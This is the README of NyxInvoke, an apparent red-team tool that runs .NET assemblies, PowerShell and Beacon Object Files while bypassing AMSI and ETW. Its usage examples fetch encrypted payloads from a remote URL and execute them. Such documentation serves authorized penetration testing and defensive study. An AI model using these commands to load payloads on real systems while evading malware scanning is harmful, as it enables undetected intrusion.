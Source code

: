 # NyxInvoke

NyxInvoke is a rust based command-line tool designed for executing .NET assemblies, PowerShell commands/scripts, and Beacon Object Files (BOFs) with built-in patchless AMSI and ETW bypass capabilities.

## Features

- Execute .NET assemblies
- Run PowerShell commands or scripts
- Load and execute Beacon Object Files (BOFs)
- Built-in patchless AMSI (Anti-Malware Scan Interface) bypass
- Built-in patchless ETW (Event Tracing for Windows) bypass
- Support for encrypted payloads with AES decryption
- Flexible input options: local files, URLs, or compiled-in data

## Usage

NyxInvoke supports three main modes of operation:

1. CLR Mode (.NET assembly execution)
2. PowerShell Mode
3. BOF Mode (Beacon Object File execution)

### General Syntax

```
NyxInvoke.exe <mode> [OPTIONS]
```

Where `<mode>` is one of: `clr`, `ps`, or `bof`.

### Mode-Specific Options

1. CLR Mode:
```text
Execute a .NET assembly

Usage: NyxInvoke.exe clr [OPTIONS]

Options:
      --args <ARGS>                          Arguments for the executable
      --base <BASE_URL_OR_PATH>              Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>            Key filename or URL
      --iv <IV_FILENAME_OR_URL>              IV filename or URL
      --assembly <ASSEMBLY_FILENAME_OR_URL>  Assembly filename or URL
  -h, --help                                 Print help
```
2. PowerShell Mode:
```text
Execute a PowerShell command or script

Usage: NyxInvoke.exe ps [OPTIONS]

Options:
      --command <COMMAND>  PowerShell command to execute
      --script <SCRIPT>    Path to a PowerShell script to execute
  -h, --help               Print help                                Print help
```

3. BOF Mode:
```text
Execute a Beacon Object File (BOF)

Usage: NyxInvoke.exe bof [OPTIONS]

Options:
      --args <ARGS>...             Arguments for the BOF
      --base <BASE_URL_OR_PATH>    Base URL or Base Path
      --key <KEY_FILENAME_OR_URL>  Key filename or URL
      --iv <IV_FILENAME_OR_URL>    IV filename or URL
      --bof <BOF_FILENAME_OR_URL>  BOF filename or URL
  -h, --help                       Print help                                Print help
```

## Examples

### CLR Mode

1. Remote Execution:
   ```
   NyxInvoke.exe clr --base https://example.com/resources --key clr_aes.key --iv clr_aes.iv --assembly clr_data.enc --args arg1 arg2
   ```

2. Local Execution:
   ```
   NyxInvoke.exe clr --key C:\path\to\clr_aes.key --iv C:\path\to\clr_aes.iv --assembly C:\path\to\clr_data.enc --args arg1 arg2
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe clr --args arg1 arg2
   ```

### PowerShell Mode

1. Script Execution:
   ```
   NyxInvoke.exe ps --script C:\path\to\script.ps1
   ```

2. Direct Command Execution:
   ```
   NyxInvoke.exe ps --command "Get-Process | Select-Object Name, ID"
   ```

### BOF Mode

1. Remote Execution:
   ```
   NyxInvoke.exe bof --base https://example.com/resources --key bof_aes.key --iv bof_aes.iv --bof bof_data.enc --args "str=argument1" "int=42"
   ```

2. Local Execution:
   ```
   NyxInvoke.exe bof --key C:\path\to\bof_aes.key --iv C:\path\to\bof_aes.iv --bof C:\path\to\bof_data.enc --args "str=argument1" "int=42"
   ```

3. Compiled Execution:
   ```
   NyxInvoke.exe bof --args "str=argument1" "int=42"
   ```

## Test Resources

In the `resources` directory, you'll find several files to test NyxInvoke's functionality:

1. Encrypted CLR Assembly (Seatbelt):
   - File: `clr_data.enc`
   - Description: An encrypted version of the Seatbelt tool, a C# project for gathering system information.
   - Usage example:
     ```
     NyxInvoke.exe clr --key resources/clr_aes.key --iv resources/clr_aes.iv --assembly resources/clr_data.enc --args AntiVirus
     ```

2. Encrypted BOF (Directory Listing):
   - File: `bof_data.enc`
   - Description: An encrypted Beacon Object File that executes the 'dir' command.
   - Usage example:
     ```
     NyxInvoke.exe bof --key resources/bof_aes.key --iv resources/bof_aes.iv --bof resources/bof_data.enc --args "wstr=C:\\Windows"
     ```


## Building

To build NyxInvoke

```
cargo +nightly build --release --target=x86_64-pc-windows-msvc
```
or with compiled-in CLR or BOF data
```
cargo +nightly build --release --features=compiled_bof,compiled_clr
```

## Screenshot



## Legal Notice

This tool is for educational and authorized testing purposes only. Ensure you have proper permissions before use in any environment.

